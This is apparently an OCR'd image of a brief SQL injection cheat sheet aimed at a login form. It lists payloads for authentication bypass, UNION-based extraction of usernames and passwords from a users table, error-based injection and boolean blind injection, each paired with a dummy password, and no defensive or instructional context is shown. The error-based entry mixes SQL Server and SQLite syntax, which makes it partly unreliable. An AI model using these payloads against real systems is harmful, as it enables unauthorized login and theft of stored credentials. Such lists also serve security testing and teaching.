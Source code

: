 Authentication Bypass:
  Username: ' OR '1'='1
  Password: anything

Union-Based Attack:
  Username: ' UNION SELECT null, username, password FROM users --
  Password: anything

Error-Based Injection:
  Username: ' AND 1=CONVERT(int, (SELECT name FROM sqlite_master WHERE type='table')) --
  Password: anything

Blind SQL Injection (Boolean-Based):
  Username: ' OR (SELECT CASE WHEN (1=1) THEN 1 ELSE 0 END)='1' --
  Password: anything
